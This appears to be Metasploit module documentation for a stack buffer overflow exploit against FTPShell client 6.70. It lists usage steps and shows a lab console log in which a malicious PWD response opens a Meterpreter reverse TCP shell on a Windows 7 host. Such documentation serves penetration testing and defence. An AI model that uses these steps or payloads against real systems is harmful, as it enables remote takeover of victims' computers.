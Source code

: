 ## Vulnerable Application

FTPShell client 6.70 (Enterprise edition) is affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code on the target. The vulnerability is caused by improper bounds checking of the PWD command. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [ftpshell.com](http://www.ftpshell.com/downloadclient.htm).

## Verification Steps
    1. Install a vulnerable FTPShell client 6.70
    2. Start `msfconsole`
    3. Do `use exploit/windows/ftp/ftpshell_cli_bof`
    4. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
    5. Do `set LHOST ip`
    6. Do `exploit`
    7. Conect to the FTP server using FTPShell client 6.70
    8. Verify the Meterpreter session is opened

## Scenarios

### FTPShell client 6.70 on Windows 7 SP1 x64

```
msf > use exploit/windows/ftp/ftpshell_cli_bof 
msf exploit(windows/ftp/ftpshell_cli_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/ftp/ftpshell_cli_bof) > set LHOST 172.16.106.129 
LHOST => 172.16.106.129
msf exploit(windows/ftp/ftpshell_cli_bof) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.106.129:4444 
[*] Please ask your target(s) to connect to 172.16.106.129:21
[*] Server started.
msf exploit(windows/ftp/ftpshell_cli_bof) > [*] 172.16.106.128 - connected.
[*] 172.16.106.128 - Response: Sending 220 Welcome
[*] 172.16.106.128 - Request: USER anonymous
[*] 172.16.106.128 - Response: sending 331 OK
[*] 172.16.106.128 - Request: PASS anonymous@anon.com
[*] 172.16.106.128 - Response: Sending 230 OK
[*] 172.16.106.128 - Request: PWD
[*] 172.16.106.128 - Request: Sending the malicious response
[*] Sending stage (179779 bytes) to 172.16.106.128
[*] Meterpreter session 1 opened (172.16.106.129:4444 -> 172.16.106.128:49263) at 2018-06-27 11:19:38 -0400

msf exploit(windows/ftp/ftpshell_cli_bof) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
